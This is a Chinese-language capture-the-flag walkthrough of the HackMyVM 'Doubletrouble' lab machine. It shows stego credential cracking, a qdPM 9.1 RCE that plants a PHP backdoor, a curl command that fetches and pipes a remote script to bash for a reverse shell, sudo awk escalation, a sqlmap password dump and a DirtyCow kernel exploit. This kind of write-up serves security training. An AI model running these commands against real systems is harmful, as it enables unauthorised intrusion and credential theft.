 # Doubletrouble

2024.12.31 https://hackmyvm.eu/machines/machine.php?vm=Doubletrouble

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 服务，发现主页上是 qdPM 9.1 , 目录扫描发现了一个好像有内容的图片 http://192.168.5.40/secret/doubletrouble.jpg 查看其是否有隐写：

```
stegseek --crack doubletrouble.jpg /usr/share/wordlists/rockyou.txt

[i] Found passphrase: "92camaro"
[i] Original filename: "creds.txt".
```

发现隐写，内容为：

```
otisrush@localhost.com
otis666
```

应该是 80 上的 web 系统的登陆凭据，尝试登陆，登陆成功，qdPM 9.1 存在 rce 漏洞，进行利用：

```
python3 50175.py -url http://192.168.5.40/ -u 'otisrush@localhost.com' -p otis666

http://192.168.5.40/uploads/users/473034-backdoor.php?cmd=whoami
```

生成了后门，kali 建立监听，执行反弹获得 shell：

```
nc -lvnp 8888
curl -d 'cmd=wget -q -O - http://192.168.5.3/5-3/8888.sh|bash' http://192.168.5.40/uploads/users/473034-backdoor.php
```

得到 shell 后，进行枚举，sudo -l 发现：

```
(ALL : ALL) NOPASSWD: /usr/bin/awk
```

直接提权到 root：

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

但是在 root 目录下，还有一个虚拟机文件 doubletrouble.ova 395M，将其下载下来，导入到虚拟机中继续运行。

新 ip 为: 192.168.5.39

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 服务，是个登陆窗口，目录扫描也没发现其他的隐藏目录，尝试登陆窗口是否有弱密码或者 sql 注入，经过 sqlmap 跑出了 sql 注入，直接爆库：

```
sqlmap -r req.txt --batch -D doubletrouble -T users --dump

+----------+----------+
| password | username |
+----------+----------+
| GfsZxc1  | montreux |
| ZubZub99 | clapton  |
+----------+----------+
```

发现 clapton:ZubZub99 可以直接 ssh 登陆，获得了 user flag：

```
clapton@doubletrouble:~$ cat user.txt
6CEA7A737C7C651F6DA7669109B5FB52
```

提权至 root，没找到其他路径，直接内核提权 40839.cow.c，最终获得了 root flag：

```
firefart@doubletrouble:~# cat root.txt
1B8EEA89EA92CECB931E3CC25AA8DE21
```
